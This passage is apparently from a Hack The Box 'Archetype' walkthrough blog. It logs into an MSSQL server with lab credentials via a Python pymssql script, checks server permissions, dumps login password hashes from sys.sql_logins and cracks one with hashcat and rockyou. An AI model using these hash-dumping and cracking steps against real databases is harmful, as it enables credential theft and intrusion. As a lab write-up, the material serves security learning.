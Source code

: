 ```py
#query.py

import pymssql

queries = [
  "SELECT @@version",
  "SELECT user_name()",
  "SELECT system_user",
  "SELECT name FROM master..syslogins", #dump logins
]

with pymssql.connect('10.10.10.27', 'ARCHETYPE\\ ', 'M3g4c0rp123', 'master') as conn:
  with conn.cursor() as cursor:
    for query in queries:
      print(f'\n#-- {query}\n')
      cursor.execute(query)
      print(cursor.fetchall())
```

![5180850575502.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932919370/TbjkOyrU-.png)

* [system_user](https://docs.microsoft.com/en-us/sql/t-sql/functions/system-user-transact-sql?view=sql-server-ver15#a-using-system_user-to-return-the-current-system-user-name)
* [user_name()](https://www.w3schools.com/sql/func_sqlserver_user_name.asp)
* [Double Dot Notation](https://stackoverflow.com/a/34786151)

Let's see what Server-scoped permission current user have

```sql
SELECT permission_name FROM master..fn_my_permissions(null, 'SERVER')
```

![2376129911253.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932934399/8eWiPgEM8.png)

Well, it seems like we have a pretty wide permission set. For example, we can dump login hashes for the logins because of the `CONTROL SERVER`.

```sql
SELECT name + ':' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

![3770297859657.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932945670/Vq-WkDwR3.png)

Let's run the `hashcat` in the background:

```sh
hashcat -m 1731 -a 0 -O --status --session=archtype 0x0200100bac9600580c3c299ed7ff81d77bcbe50b830ca60306d7a5e5bf34a5c6be0d895247952bfff5708764033a797e8ca4f2004797203d7ee5c794d655c3218a0b13a3ce63 /usr/wl/rockyou.txt
```

> Rule of thumb for HTB boxes is - if you can't crack the password using rockyou wordlist - this is probably not a hash you are looking for.

Now, what I'm interested in (and probably I should check that right away) is if `sql_svc` can execute system commands.
